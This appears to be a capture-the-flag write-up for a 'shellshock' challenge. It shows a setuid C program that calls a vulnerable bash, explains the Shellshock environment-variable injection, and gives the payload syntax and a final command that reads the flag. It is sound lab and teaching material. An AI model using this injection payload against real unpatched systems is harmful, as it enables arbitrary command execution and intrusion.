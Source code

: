 ### Analysis

The program `shellshock` runs a custom `bash` binary located in the same directory. The `bash` binary is vulnerable to the Shellshock vulnerability, which allows arbitrary command execution via environment variables. By exploiting this vulnerability, we can execute commands such as `cat flag` to retrieve the flag.

```C
#include <stdio.h>
int main(){
        setresuid(getegid(), getegid(), getegid());
        setresgid(getegid(), getegid(), getegid());
        system("/home/shellshock/bash -c 'echo shock_me'");
        return 0;
}
```
### Exploit

1. **Shellshock Vulnerability**:
   - The Shellshock vulnerability allows executing arbitrary commands by defining a malicious environment variable.
   - The syntax for exploiting Shellshock is:

     ```bash
     env x='() { :;}; <command>' bash -c "echo this is a test"
     ```
   
   - Here, `<command>` is the arbitrary command we want to execute.

2. **Exploit the Custom `bash`**:
   - The program uses a custom `bash` binary located in the same directory (`./bash`).
   - We can exploit the Shellshock vulnerability in this custom `bash` to execute commands.

### Final Command

Run the following command to exploit the Shellshock vulnerability and retrieve the flag:

```bash
env x='() { :;}; ./bash -c "cat flag"' ./shellshock
```
